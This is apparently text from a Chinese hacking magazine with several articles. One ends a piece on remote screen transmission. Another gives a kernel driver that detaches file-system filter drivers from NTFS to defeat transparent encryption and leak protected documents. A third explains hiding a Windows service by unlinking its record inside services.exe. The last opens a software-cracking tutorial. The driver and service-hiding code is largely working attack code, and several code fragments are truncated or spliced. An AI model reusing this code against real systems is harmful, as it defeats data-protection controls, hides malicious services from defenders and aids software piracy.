LPBYTE CWinMonitor::GetNextScreenByBlock(DWORD &dwSize)
{
    // 使用隔行扫描方法找出变化区域
    ScanChangeRect(m_nScanStartLine);

    POINT ptCursor_tmp;
    GetCursorPos(&ptCursor_tmp);
    *((LPDWORD)m_lpChangeBYTES) = 0;
}
```

```c
// 计算要发送数据的初始大小
memcpy(m_lpChangeBYTES + sizeof(DWORD),
       &ptCursor_tmp, sizeof(ptCursor_tmp));
// 判断屏幕是否有变化
if ((m_ChangeRect.bottom == 0 && m_ChangeRect.right == 0 &&
     m_ChangeRect.left == 0 && m_ChangeRect.top == 0)) {
    // 如果鼠标没有移动且屏幕数据没有变化，则返回 NULL
    if (ptCursor_tmp.x == m_ptCursor.x &&
        ptCursor_tmp.y == m_ptCursor.y) {
        dwSize = 0;
        return NULL;
    } else {
        // 如果只有鼠标移动，返回鼠标的坐标
        m_ptCursor = ptCursor_tmp;
        dwSize = sizeof(DWORD) + sizeof(POINT);
        return m_lpChangeBYTES;
    }
}
m_ptCursor = ptCursor_tmp;
// 获取变化的区域
GetChangeRect();
// 对变化的区域进行广度优先搜索
return BFSsearch(dwSize);
```

## 实现方案及分析

程序在 Windows 2003 企业版环境下运行，设置服务端每秒扫描传输 15 次屏幕，并且分别用 DU Meter 和任务管理器对程序进行了 10 分钟的流量和 CPU 使用率检测，屏幕变化采用了 Cisco 教学幻灯片全自动放映，放映速度 10s/张。

CPU 检测结果：在幻灯片放映过程中，屏幕传输服务端进程 CPU 的使用情况基本保持在 0～20%，这样的使用情况是比较理想的。

最后获得的网络平均传输结果如图 2 所示。


图 2

网络流量监测结果：在 10 分钟的网络流量测试当中，发现程序的网络流量占用十分乐观，上传的全部数据只有 1.98MB，平均上传速率仅仅只有 3.3KB/s。

从性能的测试结果可以表明，由隔行扫描、动态分块、广度优先遍历、Zlib 压缩相结合的算法具有较低的 CPU 占用率和网络流量，完全可以达到普通宽带下的屏幕传输要求。

## 结束语

本文对远程屏幕传输提出了一套高效可行的解决方案，既发挥了隔行扫描、广度优先遍历 CPU 占用率低的优势，又发挥了动态分块能准确截取屏幕变化区域、减少数据量的优势，从而解决了以往远程屏幕传输的 CPU 占用率高、网络传输量大的问题，具有非常高的实用价值。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动  
关键词：文件透明加密、绕过、驱动

# 如何绕过文件透明加密机制

文/图 liuke_blue


目前数据安全越来越引起重视，为了防止数据从内部被泄密出去，很多安全的防范方法都相应出现。有以下几种常见的方法来防止内部文档泄密：

- 通过防止数据通过网络、移动硬盘、U 盘、光盘、甚至软盘等被上传、复制出去（原理：采取物理隔离或者修改 BIOS，屏蔽光驱、USB 口、网卡等；通过在内核层进行底层拦截来进行拦截，上次胡文亮同学所提到的某公司的保密系统估计就是采取这种方式）。
- 建立虚拟盘，对数据进行加密后并保存至虚拟的硬盘（原理是通过文件镜像来构造虚拟磁盘来进行数据加密保存，像 360 最新出的密保、WinMount 等就是利用这类加密方式开发的工具）。
- 文件透明加解密技术（原理：通过 Windows 的文件系统（过滤）驱动（IFS）技术在内核层对文件操作进行过滤，所谓过滤就是当应用程序打开某文件进行读写时，会调用应用层的 API 函数，这些函数会接着去调用内核对应的文件操作函数，这些函数将对应操作的 IRP 转发给 Windows 的文件系统。我们可以在文件系统处理这些 IRP 之前对文件的数据进行加解密，而这些底层过滤操作对于用户来说是完全不可见的，就像透明的一样。目前流行的文件透明加密系统主要是采取微软所提供的 minifilter 技术，这里注意与传统的文件过滤系统 sfilter 的区别，像 BitSec 个人文件安全系统、很多企业特制的内部文档加密系统就是采取这种原理来开发的）。

有没有绕过文件透明加密的办法呢？我想这就是我写这篇文章的目的。我认为至少有两种方式：第一，将操作文件的 IRP 直接交给 Windows 文件系统，而不经过文件过滤系统（IFS）；第二，我们知道不管是采取 minifilter 技术还是 sfilter 技术，都是将过滤系统依附在文件系统“\\FileSystem\\Ntfs”或者“\\FileSystem\\Fastfat”上，因此只要清掉依附在 FSD 上的附加驱动，即可绕过文件透明加密保护机制。本文就是采取第二种方式来绕过文件透明加密机制，核心代码如下：

```c
// 摘除附加在 "ntfs" 设备链上的所有设备
NTSTATUS extirpateDevice(PCWSTR szlinkPath)
{
    UNICODE_STRING DestinationString;
    NTSTATUS status;
    PDRIVER_OBJECT lpDriverObject;
    KIRQL SpinLock, OldIrql;
    PDEVICE_OBJECT currentDevice = NULL;

    RtlInitUnicodeString(&DestinationString, szlinkPath);
    status = ObReferenceObjectByName(&DestinationString,
                                     OBJ_CASE_INSENSITIVE,
                                     NULL,
                                     0,
                                     *IoDriverObjectType,
                                     KernelMode,
                                     NULL,
                                     &lpDriverObject);

    if (NT_SUCCESS(status)) {
        KfAcquireSpinLock(&SpinLock, &OldIrql);
        WPON();
        currentDevice = lpDriverObject->DeviceObject;
        while (currentDevice != NULL) { // 关键的脱链处
            currentDevice->AttachedDevice = 0;
            currentDevice = currentDevice->NextDevice;
        }
        ObDereferenceObject(lpDriverObject);
        WPOFF();
        KfReleaseSpinLock(&SpinLock, OldIrql);
        DbgPrint("ClearFilters is End=>%wZ\n", &DestinationString);
    }
    return status;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PIRP Irp)
{
    DriverObject->DriverUnload = DriverUnload;
    // 依据 L"\\FileSystem\\Ntfs"
    extirpateDevice(L"\\FileSystem\\Ntfs");
    DbgPrint("Extirpate OK!\n");
    return STATUS_SUCCESS;
}

VOID WPON()
{
    __asm{
        mov eax, cr0
        and eax, not 10000h
        mov cr0, eax
    }
    return;
}

VOID WPOFF()
{
    __asm{
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
    }
}
```

```c
}
return ...
}
```

代码很简单，这里只考虑文件系统是 Ntfs 的情况，如果有 Fat32 格式的磁盘，就还要考虑 Fastfat 的情况，代码是一样的，我就不多说了。

我用 BitSec 软件开启对记事本透明加密，测试如图 1 所示。


图 1

加密成功后，记事本打开的文档是明文文档，而其他方式打开的都是已加过密的密文文档，也就是说使用记事本进程打开文档对用户来说是透明的；用 XueTr 工具查看过滤驱动如图 2 所示。


图 2

Sr.sys 是开启系统还原功能的驱动（只有开启系统还原才会有），因此透明加密 PpDrv.sys 依附在 Sr.sys，而 Sr.sys 依附在 Ntfs.sys 驱动上。加载运行前面编写好的驱动清空掉依附 ntfs 设备链上的挂接，脱链后如图 3 所示。


图 3

从图 3 可以看到透明加密机制已经失效，记事本打开的不再是解密后的明文，而变成了已加过密的密文。

这只是废除了文件透明加解密的机制，但是对于原来已经加过密的文件如何破解呢？其实思路也很简单，你可以在脱链之前把原先的链表保存，用原来的文件透明加密的驱动打开文件，然后再脱链，此时打开的文件已经解密。你另存好该文件后，再恢复原来的透明加密链表，这样又恢复到文件透明加密状态，而你原先另存的文件已经脱密成明文，你就可以轻松地复制了。这样透明加密机制就成了睁眼瞎，这就叫“以己之矛，攻己之盾”！

> 【编辑提醒：本文涉及的代码可到黑防官方网站下载】

前置知识：VC  
关键词：Windows、服务、隐藏

## 详解 Windows 系统服务的隐藏

文/图 Naylon


## 前言

Windows 系统服务是 Windows 系统中的一个重要部分，在 Windows 2000/XP/2003 系统中，服务是指执行指定系统功能的程序、例程或进程，以便支持其他程序。实际上服务就是一类应用程序，它多数运行在后台，为系统内的很多核心功能提供了支持。服务程序既可以是 Win32 程序，也可以是设备驱动程序。

我们在“开始菜单→运行”里输入“services.msc”能够打开系统的服务管理器，它可以列出当前系统中所有的服务，并且可以对这些服务进行管理。如图 1 所示。


图 1

下面我们来研究一下系统是如何维护这些服务的。

## 常规方法枚举系统服务

就像进程一样，Windows 同样为我们提供了一组 Win32 API 用来管理系统服务，这些函数大部分由“advapi32.dll”导出。

关于枚举系统服务，最标准的方法自然是使用 Windows 提供的 EnumServicesStatus 函数，该函数的原型如下：

```c
BOOL WINAPI EnumServicesStatus(
    SC_HANDLE hSCManager,
    DWORD dwServiceType,
    DWORD dwServiceState,
    LPENUM_SERVICE_STATUS lpServices,
    DWORD cbBufSize,
    LPDWORD pcbBytesNeeded,
    LPDWORD lpServicesReturned,
    LPDWORD lpResumeHandle
);
```

至于该函数的具体用法，大家可以去查 MSDN，MSDN 对其进行了全面的介绍。对于该函数，本文不予深究。

### 剖析枚举系统服务的底层实现，变通实现隐藏服务

#### 1. 通过 ReactOS 源代码对 EnumServicesStatus 函数进行分析

前面介绍了用 EnumServicesStatus 函数来枚举进程，但是本文的标题是“详解”而非“浅析”，抱着研究本质的心态，我们有必要再深入一下，看看 EnumServicesStatus 函数是怎么实现的枚举服务。

Windows 系统是闭源的，最起码算是半闭源，我这里没有找到 Windows 的 EnumServicesStatus 函数的实现代码。还好，高仿 Windows 的 ReactOS 是完全开源的，且它的实现跟 Windows 相差无几，我们可以参考 ReactOS 的代码来研究 Windows。下面是我在 ReactOS 的源代码里找到的 EnumServicesStatus 函数的代码（部分加了注释，方便大家理解）：

```c
BOOL WINAPI
EnumServicesStatusW(SC_HANDLE hSCManager,
    DWORD dwServiceType,
    DWORD dwServiceState,
    LPENUM_SERVICE_STATUSW lpServices,
    DWORD cbBufSize,
    LPDWORD pcbBytesNeeded,
    LPDWORD lpServicesReturned,
    LPDWORD lpResumeHandle)
{
    /* ... ReactOS 实现代码节选 ... */
    if (!hSCManager) {
        SetLastError(ERROR_INVALID_HANDLE);
        return FALSE;
    }
    /* 参数检查与服务枚举逻辑 */
}
```

```c
if (pcbBytesNeeded)
    *pcbBytesNeeded = 0;
if (lpServicesReturned)
    *lpServicesReturned = 0;
SetLastError(ERROR_INVALID_PARAMETER);
return FALSE;
...
/* 功能实现部分 */
RpcTryExcept
{
    // 调用 REnumServicesStatusW 来实现真正的枚举
    dwError =
    REnumServicesStatusW((SC_RPC_HANDLE)hSCManager,
                         dwServiceType,
                         dwServiceState,
                         (LPBYTE)lpServices,
                         cbBufSize,
                         pcbBytesNeeded,
                         lpServicesReturned,
                         lpResumeHandle);
}
RpcExcept(EXCEPTION_EXECUTE_HANDLER)
{
    dwError = ScmRpcStatusToWinError(RpcExceptionCode());
}
RpcEndExcept;
...
if (dwError != ERROR_SUCCESS)
{
    TRACE("REnumServicesStatusW() failed (Error %lu)\n", dwError);
    SetLastError(dwError);
    return FALSE;
}
TRACE("EnumServicesStatusW() done\n");
return TRUE;
```

```c
DWORD dwServiceState,
LPBYTE lpBuffer,
DWORD dwBufSize,
LPBOUNDED_DWORD_256K pcbBytesNeeded,
LPBOUNDED_DWORD_256K lpServicesReturned,
LPBOUNDED_DWORD_256K lpResumeHandle)
{
    PMANAGER_HANDLE hManager;
    PSERVICE lpService;      // 保存服务信息的结构的指针
    DWORD dwError = ERROR_SUCCESS;  // 错误代码
    PLIST_ENTRY ServiceEntry; // 服务链
    PSERVICE CurrentService;  // 当前处理的服务（指针）
    DWORD dwState;            // 状态
    DWORD dwRequiredSize;     // 必要的缓冲区大小的字节数
    DWORD dwServiceCount;     // 服务总数
    DWORD dwSize;             // 临时变量
    DWORD dwLastResumeCount = 0;
    ...
    if (ScmShutdown)
        return ERROR_SHUTDOWN_IN_PROGRESS;
    ...
    if (((dwServiceType != SERVICE_DRIVER) && (dwServiceType != SERVICE_WIN32)))
    {
        DPRINT("Not a valid Service Type!\n");
        return ERROR_INVALID_PARAMETER;
    }
    if ((dwServiceState < SERVICE_ACTIVE) || (dwServiceState > SERVICE_STATE_ALL))
    {
        DPRINT("Not a valid Service State!\n");
        return ERROR_INVALID_PARAMETER;
    }
    // 检查访问权限
    if (!RtlAreAllAccessesGranted(hManager->Handle.DesiredAccess,
                                  SC_MANAGER_ENUMERATE_SERVICE))
    {
        DPRINT("Insufficient access rights! 0x%lx\n", hManager->Handle.DesiredAccess);
        return ERROR_ACCESS_DENIED;
    }
    ...
    // 计算服务总数
    for (ServiceEntry = &lpService->ServiceListEntry;
         ServiceEntry != &ServiceListHead;
         ServiceEntry = ServiceEntry->Flink)
    {
        CurrentService = CONTAINING_RECORD(ServiceEntry, ...);
    }
}
```

由代码我们可以看出，EnumServicesStatusW 实际上只是简单地调用 REnumServicesStatusW 函数实现的枚举服务，于是我们再来看一看 REnumServicesStatusW 的实现代码：

```c
DWORD REnumServicesStatusW(
    SC_RPC_HANDLE hSCManager,
    DWORD dwServiceType,
    ...
)
```

```c
SERVICE,
ServiceListEntry);
if ((CurrentService->Status.dwServiceType & dwServiceType) == 0)
    continue;
dwState = SERVICE_ACTIVE;
if (CurrentService->Status.dwCurrentState == SERVICE_STOPPED)
    dwState = SERVICE_INACTIVE;
if ((dwState & dwServiceState) == 0)
    continue;

dwSize = sizeof(ENUM_SERVICE_STATUSW)
    + ((wcslen(CurrentService->lpServiceName) + 1) * sizeof(WCHAR))
    + ((wcslen(CurrentService->lpDisplayName) + 1) * sizeof(WCHAR));

if (dwRequiredSize + dwSize > dwBufSize)
{
    DPRINT("Service name: %S no fit\n", CurrentService->lpServiceName);
    break;
}

DPRINT("Service name: %S fit\n", CurrentService->lpServiceName);
dwRequiredSize += dwSize;
dwServiceCount++;
dwLastResumeCount = CurrentService->dwResumeCount;

...

if (lpResumeHandle)
    *lpResumeHandle = dwLastResumeCount;
*lpServicesReturned = dwServiceCount;
*pcbBytesNeeded = dwRequiredSize;

lpStatusPtr = (LPENUM_SERVICE_STATUSW)lpBuffer;
lpStringPtr = (LPWSTR)((ULONG_PTR)lpBuffer + dwServiceCount * sizeof(ENUM_SERVICE_STATUSW));

for (ServiceEntry = &lpService->ServiceListEntry;
     ServiceEntry != &ServiceListHead;
     ServiceEntry = ServiceEntry->Flink)
{
    CurrentService = CONTAINING_RECORD(ServiceEntry, SERVICE, ServiceListEntry);
    ...
}
```

```c
dwState = SERVICE_INACTIVE;
if ((dwState & dwServiceState) == 0)
    continue;

dwSize = sizeof(ENUM_SERVICE_STATUSW)
    + ((wcslen(CurrentService->lpServiceName) + 1) * sizeof(WCHAR))
    + ((wcslen(CurrentService->lpDisplayName) + 1) * sizeof(WCHAR));

if (dwRequiredSize + dwSize > dwBufSize)
    break;

/* Copy the service name */
wcscpy(lpStringPtr, CurrentService->lpServiceName);
lpStatusPtr->lpServiceName = (LPWSTR)((ULONG_PTR)lpStringPtr - (ULONG_PTR)lpBuffer);
lpStringPtr += (wcslen(CurrentService->lpServiceName) + 1);

/* Copy the display name */
wcscpy(lpStringPtr, CurrentService->lpDisplayName);
lpStatusPtr->lpDisplayName = (LPWSTR)((ULONG_PTR)lpStringPtr - (ULONG_PTR)lpBuffer);
lpStringPtr += (wcslen(CurrentService->lpDisplayName) + 1);

/* Copy the status information */
memcpy(&lpStatusPtr->ServiceStatus,
       &CurrentService->Status,
       sizeof(SERVICE_STATUS));

lpStatusPtr++;
dwRequiredSize += dwSize;

...
return dwError;
```

通过查看 REnumServicesStatusW 的代码，我们才真正了解了枚举服务的“内幕”。我们发现，REnumServicesStatusW 其实是通过查询一条链表来进行枚举的。

首先取得了该链表的指针，即服务链的指针：

`lpService = ScmGetServiceEntryByResumeCount(dwLastResumeCount);`

那么 ScmGetServiceEntryByResumeCount 又是怎么取得服务链的呢？实际上，在 ReactOS 某段代码处定义了该链表，而 ScmGetServiceEntryByResumeCount 只是简单地取得它并做了一些处理，之后便返回了该链的指针。

既然是链表，那么系统就一定要负责为它初始化，于是问题又来了：这个服务链是怎么产生的呢？我们知道，在 Windows 中，`services.exe` 进程是负责维护系统服务的，所以我们不妨猜测该链表是在 `services.exe` 进程初始化时产生的（即 WinMain 函数内）。下面我们查阅一下 `services.exe` 进程的入口函数，果真找到了线索，在 WinMain 函数里，我们可以看到如下代码：

```c
/* Create the service database */
dwError = ScmCreateServiceDatabase();
if (dwError != ERROR_SUCCESS)
{
    DPRINT1("SERVICES: failed to create SCM database (Error %lu)\n", dwError);
    ExitThread(0);
}
```

顾名思义，ScmCreateServiceDatabase 就是负责建立服务链。

### 2. 通过反汇编分析设法取得服务链地址

好了，现在整理一下思路：“services.exe”进程创建时会建立一个链表，该链表保存了所有服务的信息，我们称之为“服务链”。现在，我们先来尝试自己实现枚举服务，最后再尝试隐藏服务。如何自己实现枚举呢？很简单，我们就从服务链下手，自己查询服务链就行了。问题又来了：我们如何才能取得服务链的地址呢？首先，我们知道这个链表是在“services.exe”进程初始化时产生的，说明它保存在“services.exe”进程的地址空间内，因此我们应当从“services.exe”进程下手。前面我们还知道了 ScmCreateServiceDatabase 函数创建了这条服务链，那么该函数的代码内就一定会有对服务链地址的引用。因此，我们只要通过特征码搜索 ScmCreateServiceDatabase 的代码段就可以找到服务链的地址了！

然而，ScmCreateServiceDatabase 实际上只是 ReactOS 里的函数名，ReactOS 毕竟不是 Windows。在 Windows 中，这个函数名为 ScInitDatabase。下面我们用 WinDbg 来反汇编一下这个函数：

```asm
0:016> u services!ScInitDatabase l50
services!ScInitDatabase:
0100badf 33c0 xor eax,eax
0100bae1 56 push esi
0100bae2 a3a8b70101 mov dword ptr [services!ScTotalNumServiceRecs],eax
...
0100bb31 c3 ret
```

可以看出，services!ServiceDatabase+0x4 就是服务链的首地址了（对照后面的结构，我们可以发现服务链的首地址是 services!ServiceDatabase+0x4 而非 services!ServiceDatabase）。限于篇幅，不再对此进行考证，有兴趣的读者可以尝试验证。

services!ServiceDatabase+0x4 的特征码是 0xA3 和 0xA3，而且前后有很多相同的地方，所以我们通过 ScInitDatabase 函数搜索出准确的服务链地址。不必灰心，我们再来找一找还有哪些函数引用了 services!ServiceDatabase+0x4。果然，在 ScInitDatabase 的代码段后面不远处，我们找到了这样一个函数：

```asm
services!ScCreateServiceRecord:
0100c29b 8bff mov edi,edi
0100c29d 55 push ebp
0100c29e 8bec mov ebp,esp
...
0100c334 391db4b00101 cmp dword ptr [services!ServiceDatabase+0x4],ebx
```

在这里，services!ServiceDatabase+0x4 的特征码是 0x1D39 和 0xB8，而且前后并无重复，不会找错位置，因此我们可以尝试在 ScCreateServiceRecord 的函数段内根据特征码搜出 services!ServiceDatabase+0x4。

### 3. 编程实现

好了，前面的分析够多了，现在我们就来实战一下。首先列出我们要用到的结构。ReactOS 里确实也有这些结构的定义，不过跟 Windows 的却不是相同，所以我从网上摘用了准确的结构定义（省略了没用的部分），代码如下：

```c
typedef struct _SC_SERVICE_PROCESS
{
    PSC_SERVICE_PROCESS Previous;
    PSC_SERVICE_PROCESS Next;
    WCHAR *ImagePath;
    DWORD Pid;
    DWORD NumberOfServices;
    // ...
} SC_SERVICE_PROCESS, *PSC_SERVICE_PROCESS;

typedef struct _SC_DEPEND_SERVICE
{
    PSC_DEPEND_SERVICE Next;
    DWORD Unknown;
    PSC_SERVICE_RECORD Service;
    // ...
} SC_DEPEND_SERVICE, *PSC_DEPEND_SERVICE;

typedef struct _SC_SERVICE_RECORD
{
    PSC_SERVICE_RECORD Previous;
    PSC_SERVICE_RECORD Next;
    WCHAR *ServiceName;
    WCHAR *DisplayName;
    DWORD Index;
    DWORD ServerAnnounce;
    DWORD Signature;
    DWORD UseCount;
    DWORD StatusFlag;
    PSC_SERVICE_PROCESS Process;
    SERVICE_STATUS Status;
    DWORD StartType;
    // ...
};
```

```c
DWORD ErrorControl;
DWORD TagId;
PSC_DEPEND_SERVICE DependOn;
PSC_DEPEND_SERVICE Depended;
// ...
} SC_SERVICE_RECORD, *PSC_SERVICE_RECORD;

/* FxpGetServiceDatabase
 * 搜索内存，取得 ServiceDatabase(+0x4) 的地址
 */
ULONG FxpGetServiceDatabase(PBYTE pBuffer, ULONG Size)
{
    USHORT usHardCode1 = 0x1D39;
    BYTE bHardCode2 = 0xB8;
    USHORT usCheckCode1 = 0;
    BYTE bCheckCode2 = 0;
    for (USHORT i = 0; i <= Size - 8; i++)
    {
        usCheckCode1 = *(USHORT*)(pBuffer + i);
        bCheckCode2 = *(BYTE*)(pBuffer + i + 6);
        if (usCheckCode1 == usHardCode1 && bCheckCode2 == bHardCode2)
            return *(ULONG*)(pBuffer + i + 2);
    }
    return 0;
}
```

```c
/* FxGetServiceDatabase
 * 设置好环境后调用 FxpGetServiceDatabase 取得 ServiceDatabase(+0x4) 的地址
 */
ULONG FxGetServiceDatabase(HANDLE hProcess)
{
    if (hProcess == 0)
        return 0;

    PLDR_DATA_TABLE_ENTRY ModInfo = new LDR_DATA_TABLE_ENTRY;
    LONG Status = (LONG)FxQueryModuleInfo(hProcess, TEXT("services.exe"), ModInfo);
    if (Status == 0)
        return 0;

    HMODULE hModule = (HMODULE)ModInfo->DllBase;
    if (hModule == 0)
    {
        delete ModInfo;
        return 0;
    }

    printf("The service exe module base address = 0x%X\n", hModule);

    ULONG modSize = (ULONG)ModInfo->SizeOfImage;
    delete ModInfo;
    if (modSize == 0)
        return 0;

    printf("The service exe module size = 0x%X\n", modSize);

    if (hModule > 0 && modSize > 0)
    {
        BYTE *pBuffer = new BYTE[modSize];
        memset(pBuffer, 0, modSize);
        Status = ReadProcessMemory(hProcess, (LPVOID)hModule, (LPVOID)pBuffer, modSize, 0);
        if (Status != 0)
        {
            // ...
        }
    }
}
```

```cpp
ULONG ulDatabase = FxGetServiceDatabase(Buffer, modSize);
if (ulDatabase != 0)
{
    printf("We got ServiceDatabase, it's %x\n", ulDatabase);
    delete Buffer;
    return ulDatabase;
}
delete Buffer;
return 0;
```

```cpp
sizeof(SC_SERVICE_RECORD),
0);
if (Status == 0)
{
    bReturn = FALSE;
    break;
}
delete scRecord;
return bReturn;
```

其中 FxQueryModuleInfo 是我写的一个函数（我自定义的函数都是以 Fx 开头命名的），它可以根据模块名返回模块的基本信息。由于该函数的代码与本文关系不大，抛开它并不会影响阅读，所以不在文中列出，读者只要知道它的作用即可（当然也可以自己查看附件里的源代码）。

下面是关键函数，查询链表枚举服务：

```cpp
/* FxEnumServices
 * 枚举服务
 */
BOOL FxEnumServices(HANDLE hProcess, ULONG ServiceDatabase)
{
    if (ServiceDatabase == 0) return FALSE;

    ULONG lpNext = 0;
    LONG Status = ReadProcessMemory(hProcess,
        (LPVOID)ServiceDatabase,
        &lpNext,
        4,
        0);

    if (Status == 0) return FALSE;

    PSC_SERVICE_RECORD scRecord = new SC_SERVICE_RECORD;
    Status = ReadProcessMemory(hProcess,
        (LPVOID)lpNext,
        (LPVOID)scRecord,
        sizeof(SC_SERVICE_RECORD),
        0);

    if (Status == 0)
    {
        delete scRecord;
        return FALSE;
    }

    BOOL bReturn = TRUE;
    while (scRecord->Signature == 0x76724573)
    {
        TCHAR uSrvName[MAX_PATH];
        memset(uSrvName, 0, MAX_PATH * 2);
        Status = ReadProcessMemory(hProcess,
            (LPVOID)scRecord->ServiceName,
            (LPVOID)uSrvName,
            50,
            0);
        if (Status == 0)
        {
            bReturn = FALSE;
            break;
        }

        wprintf(L"Found service: %s.\n", uSrvName);
        Status = ReadProcessMemory(hProcess,
            (LPVOID)scRecord->Next,
            (LPVOID)scRecord,
            ...);
    }
}
```

为了方便演示，我仅构建了一个控制台程序，main 函数的代码如下：

```cpp
int main(int argc, char* argv[])
{
    SetPrivilege(); // 提升权限为 SE_DEBUG
    printf("Please enter the pid of services.exe:");
    ULONG pidService = NULL;
    scanf("%d", &pidService);
    if (pidService != NULL)
    {
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pidService);
        if (hProcess != 0)
        {
            ULONG ulDatabase = FxGetServiceDatabase(hProcess); // 获取 ServiceDatabase(+0x4) 的地址
            if (ulDatabase != 0)
            {
                FxEnumServices(hProcess, ulDatabase); // 枚举服务
            }
            CloseHandle(hProcess); // 关闭句柄
        }
    }
    return 0;
}
```

编译运行后，会在控制台上输出当前所有系统服务的名称，实现了自己查询服务链枚举系统服务。

掌握了枚举服务的技巧，我们只需要稍稍变通一下，就可以实现隐藏服务。隐藏服务跟枚举服务差不多，枚举是查询链表，隐藏只要断开链表就行了，下面的 FxHideService 函数展示了这一做法：

```cpp
/* FxHideService
 * 脱链隐藏服务
 */
BOOL FxHideService(HANDLE hProcess, ULONG ServiceDatabase, LPCTSTR uTargetSrvName)
{
    if (ServiceDatabase == 0) return FALSE;

    ULONG lpNext = 0;
    LONG Status = ReadProcessMemory(hProcess,
        (LPVOID)ServiceDatabase,
        &lpNext,
        4,
        0);

    if (Status == 0) return FALSE;

    PSC_SERVICE_RECORD scRecord = new SC_SERVICE_RECORD;
    Status = ReadProcessMemory(hProcess,
        (LPVOID)lpNext,
        (LPVOID)scRecord,
        sizeof(SC_SERVICE_RECORD),
        0);
    if (Status == 0)
    {
        delete scRecord;
        return FALSE;
    }
    while (scRecord->Signature == 0x76724573) // "sErv"
    {
        TCHAR uSrvName[MAX_PATH];
        memset(uSrvName, 0, MAX_PATH * 2);
        Status = ReadProcessMemory(hProcess,
            (LPVOID)scRecord->ServiceName,
            (LPVOID)uSrvName,
            50,
            0);
        if (wcscmp(uTargetSrvName, (LPTSTR)uSrvName) == 0)
        {
            printf("We are trying to hide service.\n");
            Status = WriteProcessMemory(hProcess,
                (LPVOID)((ULONG)scRecord->Previous + 4),
                (LPVOID)&scRecord->Next,
                4,
                0);
            if (Status == 0)
            {
                break;
            }
            Status = WriteProcessMemory(hProcess,
                (LPVOID)scRecord->Next,
                (LPVOID)&scRecord->Previous,
                4,
                0);
            Status = 1;
            if (Status == 0)
            {
                break;
            }
            else
            {
                wprintf(L"Hiding service succeed, target service name is %s.\n", uSrvName);
                delete scRecord;
                return TRUE;
            }
        }
        Status = ReadProcessMemory(hProcess,
            (LPVOID)scRecord->Next,
            (LPVOID)scRecord,
            sizeof(SC_SERVICE_RECORD),
            0);
        if (Status == 0)
        {
            break;
        }
    }
    delete scRecord;
    return FALSE;
}
```

我们以 AudioSrv 服务（声音服务）为例，只要在 main 里这样调用 `FxHideService` 即可隐藏 AudioSrv 服务，而且并不影响声卡的正常使用：

```cpp
int main(int argc, char* argv[])
{
    SetPrivilege(); // 提升权限为 SE_DEBUG
    printf("Please enter the pid of services.exe:");
    ...
}
```

```cpp
ULONG pidService = NULL;
scanf("%d", &pidService);
if (pidService != NULL)
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pidService);
    // 打开 services.exe 进程
    if (hProcess != 0)
    {
        ULONG ulDatabase = FxGetServiceDatabase(hProcess);
        // 取得 ServiceDatabase(+0x4) 的地址
        if (ulDatabase != 0)
        {
            FxHideService(hProcess, ulDatabase, TEXT("AudioSrv"));
            // 隐藏 AudioSrv 服务
        }
        CloseHandle(hProcess); // 关闭句柄
    }
}
return 0;
```

这样隐藏的效果十分好，可以绕过很多 ARK 的检测，如图 2 所示。


图 2

以上代码在 WinXP SP3 + VC6.0 下编译通过，由于搜索服务链时用到了特征码，在不同系统下不能保证完全兼容。不过本文只是向大家介绍这样一种技术，我们注重的应该是过程而非结果，目的达到了就可以了。

最后再提一下如何检测以上方法隐藏的服务。其实很简单，读取注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 下所有的项就行了，因为这里才是真正记录服务信息的地方。当然，如果对注册表再做做手脚，那么服务的信息就真的难以寻觅了。

好了，本文的篇幅很长，到这里就结束了。在刚刚成文后，文兄同学对本文提出了一些宝贵的建议，对我有所帮助，在此向他表示衷心地感谢。由于时间和精力有限，文章难免有疏漏之处，如果读者在阅读或调试时遇到了什么问题，还望到论坛与我交流，欢迎批评指正！我的论坛 ID 是 naylono。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：窗口、破解、Crackme

# 窗口破解万能招


文/图 Hokkien

细心的朋友会发现，共享或者商业软件所要求的注册过程往往会以窗口的形式出现，很典型的就是安装过程中要输入用户名和密码，这时候如果没有正确的注册码，安装将进行不下去。这个很让人头疼，毕竟辛辛苦苦下载的东西，一时用不了，肯定会让人发自内心的不爽，呵呵。作为破解者，碰到这样的场面，一定要严格遵守哲学上的基本方法论，即“分析问题，解决问题”。然而人类生性是懒惰的，如果每个破解者每次遇到同样的问题，都做类似的分析未免太迟钝。可喜的是，人类又是聪明的，人类是善于总结的，即哲学上的“归纳”。因而，如果我们能够对问题的解决办法做一个“归纳”，将会使得破解这样的软件的难度大大降低。今天，我就是带着这样的“归纳”方法来的，相信读者朋友读完本文会有不同程度的收获。

### 实例一 Crackme 窗口去踪

话不多说，先来个 Crackme 预演一下。这个 Crackme 内容很简单，就是去除唯一的窗口，如图 1 所示。


这个 Crackme 没加壳，所以可以直接切入分析。本着哲学上的“分析问题、解决问题”的基本方法论，我们来尝试一下到底怎么除去这个窗口。经过一番分析后，我们初步得到以下几种破解办法：

- 1. 这个 NAG 可能是用 MessageBox 改造的，因而可以在 MessageBox 下断点试试。  
- 2. 既然窗口上显示出 “This is NAG” 字样，那么我们可以搜索字符串，从而找到破解关键位置。  
- 3. 这个 NAG 铁定是个窗口，既然是窗口，那肯定逃不过 CreateWindow，所以可以在这个 API 函数下断点看看会不会有啥收获。

先看看在 MessageBox 下断点能不能行得通，打开 OD，直接 `bp MessageBoxA`，则 OD 会在下列位置断点：

```asm
77D507EA > 8BFF           mov edi, edi
77D507EC   55             push ebp
77D507ED   8BEC           mov ebp, esp
77D507EF   833D ... 00    cmp dword ptr [...], 0
```

然后按 F9 键运行，发现 Crackme 并没有被断，而是一路畅通无阻。接着再用同样的方法试试 MessageBox 的宽字符 API `MessageBoxW`，以及其扩展 `MessageBoxEx`，Crackme 都没有被断。由此可见，Crackme 的 NAG 窗口并不是 MessageBox 的变体，因而这一招行不通。

接着，我们来搜索下 “This is NAG” 字符串，用 OD 的字符串搜索，最后显示的结果中字串一大堆，但始终找不到 “This is NAG” 字符串。因而，从这个方法定位到关键位置看来也行不通了。

最后，我们再来对 CreateWindow 下断点看看程序有什么结果，下断方法就像上面说的，这里就不多说了。

```asm
77D2E4A9 > 8BFF           mov edi, edi
77D2E4AB   55             push ebp
77D2E4AC   8BEC           mov ebp, esp
...
